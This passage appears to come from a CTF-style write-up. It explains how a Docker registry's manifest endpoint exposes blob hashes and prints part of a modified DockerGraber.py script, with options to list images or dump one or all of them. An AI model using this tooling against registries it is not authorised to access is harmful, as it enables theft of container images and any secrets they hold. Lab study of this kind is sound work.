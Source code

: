 Visiting `/manifests/latest` reveals a lot of information like `blobSum` and what not. Based on this, we can modify `DockerGraber.py` to include this token and dump everything from it using that. Here's my modified script:

```python
#!/usr/bin/env python3

import requests
import argparse
import re
import json
import sys
import os
from base64 import b64encode
import urllib3
from rich.console import Console
from rich.theme import Theme
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
req = requests.Session()

http_proxy = ""
os.environ['HTTP_PROXY'] = http_proxy
os.environ['HTTPS_PROXY'] = http_proxy

custom_theme = Theme({
    "OK": "bright_green",
    "NOK": "red3"
})

def manageArgs():
    parser = argparse.ArgumentParser()
        # Positionnal args
    parser.add_argument("url", help="URL")
        # Optionnal args
    parser.add_argument("-p", dest='port', metavar='port', type=int, default=5000, help="port to use (default : 5000)")
        ## Authentification
    auth = parser.add_argument_group("Authentication")
    auth.add_argument('-U', dest='username', type=str, default="", help='Username')
    auth.add_argument('-P', dest='password', type=str, default="", help='Password')
        ### Args Action en opposition
    action = parser.add_mutually_exclusive_group()
    action.add_argument("--dump", metavar="DOCKERNAME", dest='dump', type=str,  help="DockerName")
    action.add_argument("--list", dest='list', action="store_true")
    action.add_argument("--dump_all",dest='dump_all',action="store_true")
    args = parser.parse_args()
    return args

def printList(dockerlist):
    for element in dockerlist:
        if element:
            console.print(f"[+] {element}", style="OK")
        else:
            console.print(f"[-] No Docker found", style="NOK")

def tryReq(url, headers, username=None,password=None):
    try:
        if username and password:
            r = req.get(url,verify=False, auth=(username,password), headers=headers)
            r.raise_for_status()
        else:
            r = req.get(url,verify=False, headers=headers)
            r.raise_for_status()
```